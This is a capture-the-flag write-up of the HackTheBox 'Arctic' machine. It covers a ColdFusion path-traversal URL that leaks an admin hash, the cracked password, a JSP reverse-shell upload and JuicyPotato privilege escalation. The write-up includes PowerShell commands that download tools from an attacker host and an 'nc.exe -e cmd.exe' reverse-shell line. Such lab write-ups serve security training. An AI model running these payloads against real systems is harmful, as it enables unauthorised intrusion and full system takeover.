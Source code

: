 ```yaml
---
title: HackTheBox - Arctic
description: Arctic is an easy Windows machine that involves straightforward exploitation with some minor challenges. The process begins by troubleshooting the web server to identify the correct exploit. Initial access can be gained either through an unauthenticated file upload in Adobe `ColdFusion`. Once a shell is obtained, privilege escalation is achieved using the MS10-059 exploit. 
date: 2024-08-20 09:00:00 +0530
categories: [HackTheBox]
tags: [hackthebox, Easy, Windows]
image:
  path: /assets/img/headers/htb_arctic.webp
---
```


## Enumeration

Getting started by adding Machine IP to `/etc/hosts` as **arctic.htb**. 

### Nmap

Starting Basic nmap scan.

```console
$ sudo nmap -p- -T5 -Pn arctic.htb              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-11 13:25 IST
Nmap scan report for arctic.htb (10.10.10.11)
Host is up (0.18s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 206.96 seconds

$ sudo nmap -p135,8500,49154 -sC -sV -O -T5 arctic.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-11 13:35 IST
Nmap scan report for arctic.htb (10.10.10.11)
Host is up (0.18s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|7|2008|Vista|8.1 (90%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2:sp1 cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_8.1
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows Embedded Standard 7 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (89%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (89%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (88%), Microsoft Windows 7 or Windows Server 2008 R2 (88%), Microsoft Windows Server 2008 R2 (88%), Microsoft Windows Server 2008 R2 or Windows 8.1 (88%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 144.47 seconds
```


### ColdFusion

I found a web application server on port 8500.  I had to be really patient to work with this app as the site is too slow.
+ http://arctic.htb:8500/


![Arctic](/assets/img/htb_arctic/IMG-HTB-Arctic.png)

![Arctic](/assets/img/htb_arctic/IMG-HTB-Arctic-1.png)

A quick google search gave a site which explained about all things about ColdFusion hacking.
+ https://nets.ec/Coldfusion_hacking

Here is the URL to spill the Hash.

[https://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en](https://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en)

![Arctic](/assets/img/htb_arctic/IMG-HTB-Arctic-2.png)

I found some hash. I could check if this hash is cracked in crackstation. and, it is already found cracked there.
+ `2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03`


### crackstation

| Hash                                     | Type | Result   |   |   |
|------------------------------------------|------|----------|---|---|
| 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 | sha1 | happyday |   |   |

I could login to the app now with creds as admin.

## Foothold

### JSP Reverse Shell

Home Page of ColdFusion after Logging in.

![Arctic](/assets/img/htb_arctic/IMG-HTB-Arctic-3.png)

If we search through the website, we can see a page where we could add tasks and trigger them. We could use JSP reverse shell, upload it here and use it.

As JSP reverse shells are available in Kali linux, I have hosted it using python's http server.

```console
$ cp /usr/share/webshells/jsp/jsp-reverse.jsp ~/transfer
$ python -m http.server
```

`C:\ColdFusion8\wwwroot\CFIDE` will be the root of the uploaded files. so I appended file name to the root text and added it to **File** value.

![Arctic](/assets/img/htb_arctic/IMG-HTB-Arctic-4.png)

**submit** and run the task.

![Arctic](/assets/img/htb_arctic/IMG-HTB-Arctic-6.png)

Uploaded shell can be found here:
+ `http://10.10.10.11:8500/CFIDE/jsp-reverse.jsp` 

![Arctic](/assets/img/htb_arctic/IMG-HTB-Arctic-5.png)
_viewing JSP page after upload and running task_


i have started a netcat listener and got a connect back.

```console
$ rlwrap nc -lnvp 4444         
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.11] 50785
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```


We are user `tolis` and we can read **user.txt** .
+ `C:\Users\tolis\Desktop\user.txt`

## Privilege Escalation

Checking `tolis` privileges. 

```console
C:\Users\tolis\Desktop>whoami /priv 
whoami /priv 

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```


I used juicypotato to escalate. or use python exploit suggestor like here [posts/hackthebox-devel/#privilege-escalation](https://dineshkoravi.github.io/posts/hackthebox-devel/#privilege-escalation)

```console
$ powershell "IEX(New-Object Net.WebClient).DownloadFile('http://10.10.16.3:8000/JuicyPotato.exe', 'C:\Users\Public\Downloads\JuicyPotato.exe')" -bypass executionpolicy

$ powershell "IEX(New-Object Net.WebClient).DownloadFile('http://10.10.16.3:8000/nc.exe', 'C:\Users\Public\Downloads\nc.exe')" -bypass executionpolicy

$ echo C:\Users\Public\Downloads\nc.exe -e cmd.exe 10.10.16.3 9001 > priv.bat

$ JuicyPotato.exe -p C:\Users\Public\Downloads\priv1.bat -l 9001 -t * -c {69AD4AEE-51BE-439b-A92C-86AE490E8B30}

# Get CLSIDs with scripts or from github.
# https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise
# used BITS clsid
```

we have role of `nt authority\system` now.
```console
C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
```
